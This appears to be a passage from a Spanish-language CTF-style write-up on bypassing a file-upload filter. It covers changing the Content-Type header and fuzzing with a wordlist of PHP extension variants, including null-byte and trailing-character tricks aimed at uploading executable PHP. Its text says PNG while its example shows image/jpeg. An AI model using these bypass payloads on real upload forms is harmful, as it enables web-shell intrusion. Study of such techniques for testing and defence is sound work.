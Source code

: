 nos indica que no es una extension valida. Primero vamos a cambiar el header `Content-Type` para `PNG`:

```bash
image/jpeg
```

despues vamos a fuzzear extensiones validas, usare este diccionario para el intruder:

```bash
jpeg.php
jpg.php
png.php
php
php3
php4
php5
php7
php8
pht
png
jpg
jpeg
svg
phar
phpt
pgif
phtml
phtm
php%00.gif
php\x00.gif
php%00.png
php\x00.png
php%00.jpg
php\x00.jpg
phtml
php
php3
php4
php5
inc  
pHtml
pHp
pHp3
pHp4
pHp5
iNc
iNc%00
iNc%20%20%20
iNc%20%20%20...%20.%20..
iNc......
inc%00
inc%20%20%20
inc%20%20%20...%20.%20..
inc......
pHp%00
pHp%20%20%20
pHp%20%20%20...%20.%20..
pHp......
pHp3%00
pHp3%20%20%20
pHp3%20%20%20...%20.%20..
pHp3......
pHp4%00
pHp4%20%20%20
```